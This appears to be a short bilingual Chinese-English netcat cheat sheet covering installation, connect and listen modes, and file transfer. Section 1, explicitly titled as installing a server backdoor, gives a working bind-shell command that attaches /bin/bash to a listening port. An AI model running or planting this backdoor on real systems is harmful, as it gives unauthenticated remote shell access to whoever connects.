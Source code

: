 # nc

`netcat`, 简称`nc`  
`$ sudo yum install nmap-ncat`

## man

Ncat operates in one of two primary modes: connect mode and listen mode.  
In connect mode, Ncat works as a client.  
In listen mode it is a server.

In connect mode, the hostname ad port arguments tell what to connect to.  
hostname is required, and may be a hostname or IP address.  
If port is supplied, it must be a decimal port number.  
If omitted, it defaults to 31337.

In listen mode, hostname and port control the address the server will bind to.  
Both arguments are optional in listen mode.  
If hostname is omitted, it defaults to listening on all available  
addresses over IPv4 and IPv6.  
If port is omitted, it defaults to 31337.

## Protocol options

* -u, --udp (Use UDP). Use UDP for the connection (default is TCP)



## 1. 服务器上安后门

```bash
# 下面的命令，将在机器上开放5879端口。
$ nc -l -vv -p 5879 -e /bin/bash

# 远程就可以使用nc命令连接：
$ nc -v 192.168.8.96 5879
```
可执行任何shell命令。  

如果需要服务端在客户端退出后继续监听，使用参数`-k`。  

## 2. 文件和目录传送

可代替sftp与rzsz  

```bash
# 服务器同样监听一个端口，但是这次重定向到一个文件
$ nc -l 5879 > file

# 客户端可以直接发送文件
$ nc -v 192.168.8.83 5879 < nginx.tar.gz
```
